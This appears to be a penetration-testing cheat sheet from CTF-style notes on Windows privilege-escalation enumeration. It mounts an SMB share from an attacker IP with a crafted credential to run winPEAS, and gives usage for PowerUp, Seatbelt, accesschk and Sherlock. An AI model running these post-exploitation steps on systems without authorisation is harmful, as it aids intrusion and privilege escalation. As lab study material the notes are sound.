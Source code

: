 - Create a credential object

		$cred = New-Object System.Management.Automation.PSCredential('ghost', $pass)
		$cred

- Connect the new drive to windows

		New-PSDrive -Name gdrive_002 -PSProvider FileSystem -Credential $cred -Root \\10.10.14.6\gserv

- Go to the file (cd, dir etc...)
- Execute the file

		.\winPEAS.exe

## Automatic TOOLS
### POWERUP
https://mlcsec.com/hackthebox-re/#web-shell
https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc

	. .\PowerUp.ps1

	Invoke-AllChecks

### SEATBELT

- Seatbelt needs an argument to peform a certain type of enumeration.

		seatbelt NonStandardServices
		seatbelt All

### WINPEAS

- If running from rdp and cmd window, we can update the registry to have more *- colors** inside the window

		reg add HKCU\Console /v VirtualTerminalLevel -t REG_DWORD /d 1
		$regpath = "HKEY_CURRENT_USER\System\CurrentControlSet\ghost"

- To know all the checks

		winpeas.exe -h

	E.g:

		winpeas.exe userinfo
		winpeas.exe quiet applicationsinfo

### ACCESSCHK

	.\accesschk.exe /accepteula -uwcqv user <ServiceName>
	.\accesschk.exe /accepteula -uwdq <PathName>
	.\accesschk.exe /accepteula -uwkqv <RegPath>

### Sherlock

	sherlock -> Find-AllVulns powershell
